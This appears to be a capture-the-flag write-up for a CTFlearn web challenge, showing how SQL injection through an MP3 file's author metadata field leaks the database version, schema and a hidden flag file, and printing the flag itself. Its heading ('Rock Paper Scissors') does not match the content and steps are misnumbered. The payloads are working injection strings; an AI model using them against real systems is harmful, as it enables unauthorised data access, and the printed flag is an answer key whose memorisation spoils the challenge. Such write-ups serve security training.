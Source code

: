 ## Rock Paper Scissors
The main idea of finding the flag is recognizing a pattern to pwn.

#### Step-1:
After I visited http://web.ctflearn.com/audioedit/, I got this.

<img src="Web1.png">

#### Step-2:
It can be requested with a identifier delivered as the HTTP-GET parameter 'file'.

We figured the insertion statement looked something like this:

```
INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'author','title'...);
```

In order to do an SQL-injection we have to create a special author and title field. I used [easyTAG](https://wiki.gnome.org/Apps/EasyTAG) but of course you can use the tool of your choice to modify mp3-meta-data. In order to inject and maintain a valid INSERTION statement you can create a `mp3` with the following meta data:

```
title  = "" (leer)
author = a', (SELECT @@version))-- -b
```

which creates the following statement

```
INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'a', (SELECT @@version))-- -b',''...);
```

The `a` in the beginning and the `b` in the end were necessary because the first and last character were truncated.

This gave us the database version: `5.5.49-0ubuntu0.14.04.1`

#### Step-3:
Next we wanted to know the database name:

```
author = a', (SELECT database()))-- -b:
audioedit
```

And of course the column names:

```
author = a',(SELECT column_name FROM information_schema.columns WHERE table_name = 'audioedit' LIMIT x,1))-- -a
with x in range(0,3):
id
file
author
title
```

So finally we wanted see whats in there:

```
author = a',(SELECT author FROM audioedit.audioedit LIMIT 0,1))-- -a
```

... but this gave us an insertion error!:(

The problem is you can't select from a database that you're inserting into at the same time. Thanks to SQLs.

```
author = a',(SELECT author FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
ABCTF
author = a',(SELECT title FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
flag
author = a',(SELECT file FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
supersecretflagf1le.mp3
```

#### Step-4:
Finally the exploited URL: https://web.ctflearn.com/audioedit/edit.php?file=supersecretflagf1le.mp3

<img src="Flag1.png">

<img src="Flag2.png">

#### Step-3:
Finally, the flag becomes: 
`ABCTF{m3t4_inj3cti00n}`